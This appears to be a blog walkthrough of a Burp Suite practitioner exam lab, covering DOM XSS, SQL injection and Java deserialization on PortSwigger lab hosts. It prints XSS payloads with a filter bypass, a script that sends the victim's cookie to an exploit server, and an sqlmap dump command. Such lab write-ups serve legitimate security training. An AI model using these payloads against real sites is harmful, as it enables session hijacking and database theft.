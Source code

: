 # Burp Suite Certified Practitioner Exam Preparation Walkthrough

---
toc: true
toc_label: "Table of Contents"
toc_icon: "cog"
toc_sticky: true
title: Burp Suite Exam Prep !
header:
  image: /assets/images/post1/image.png
  teaser: /assets/images/post1/teaser.png
  
excerpt: "A unique line of text to describe this post that will display in an archive listing and meta description with SEO benefits."  
---


### **EXAM PREP**

**1/3: XSS**

DOM XSS in lookup function :

When the app is launched we immediatly see the search bar, what I always try is for XSS. 
I use the “Untrusted types” on Chrome. 

I put something in search and click on “search”

![untrusted.png](/assets/images/burp/untrusted.png)

By referring to DOM XSS labs on Portswigger, we see that there are 2 DOM XSS payloads who can work here : 

```jsx
\\"-alert(1)}//
or
"-alert(1)-"
```

XSS can be used to steal cookies of other users, then we need to try : 

```jsx
\\"-alert(document.cookie)}//
```

But no luck : 

![XSS blocked.png](/assets/images/burp/XSS_blocked.png)

We need to find a bypass and I found on the internet that we can bypass it by using : 

```jsx
\\"-alert(window["document"]["cookie"])}//
```

![XSS Bypassed.png](/assets/images/burp/XSS_Bypassed.png)

Now that we have the good payload we have to construct a payload with the exploit server link :

Add this code in exploit-server and 

```jsx
<script>

location='https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/?SearchTerm=%22-%28window%5B%22document%22%5D%5B%22location%22%5D%3D%22https%3A%2F%2Fexploit-0a6d00a40340d487c0a03af7016a000c%252eexploit-server%252enet%2F%2F%3F%22%2Bwindow%5B%22document%22%5D%5B%22cookie%22%5D%29-%22';

</script>
```

![Capture d’écran 2023-02-03 à 14.05.12.png](/assets/images/burp/Capture_decran_2023-02-03_a_14.05.12.png)

We just have to replace the session cookie to have access to Carlos account. 

**2/3 SQL Injection**

We have access to a new feature : 

![AdvancedSearch.png](/assets/images/burp/AdvancedSearch.png)

We see a parameter ⇒ sorted-by vulnerable to SQLi

![VulnParam.png](/assets/images/burp/VulnParam.png)

I launched the sqlmap command below : 

```jsx
sqlmap -u "[https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*](https://0a5800ae0314d4b3c09c3b3500dd000f.web-security-academy.net/filtered_search?SearchTerm=&writer=&sort-by=DATE*)" --cookie="_lab=46%7cMCwCFAuZTmvz13aVBBW1bpQM25dE2RVNAhRq8fmJk1vCl2i8uauGpq2N%2bIytqdEsQkFl0b%2b8pNzF%2f4p3No1yF19zA%2bj3GuVuecfTlUlSWFGu7SfWBmEz6Mu0JEWnJg5r4GggAibBFB9QtX0gMd%2fLhfFCfcTKNJtOaZ4mGvaUex6vw3k%3d; session=F8UksvHTO0lwQgGckaeEpePsgEJQTvs2" --dump
```

![SQLi result.png](/assets/images/burp/SQLi_result.png)

Now time to visit admin-panel and see what’s the next bug ! 

**3/3** ****DESERIALIZATION:****

Using Burp Scanner we can see that admin_pref are vulnerable :

![Launch Scan.png](/assets/images/burp/Launch_Scan.png)

![Burp Scan.png](/assets/images/burp/Burp_Scan.png)

Using Deserialization Scanner plugin on Burp gave me these informations : 

![JavaDeserialization.png](/assets/images/burp/JavaDeserialization.png)

Once the payload is generated and the request sent, we can go back to Burp Collaborator to see if we have a ping back : 

![Solution.png](/assets/images/burp/Solution.png)

BINGO ! We have then finished the lab. 

I hope you enjoyed reading this article as much as I enjoyed writing it.
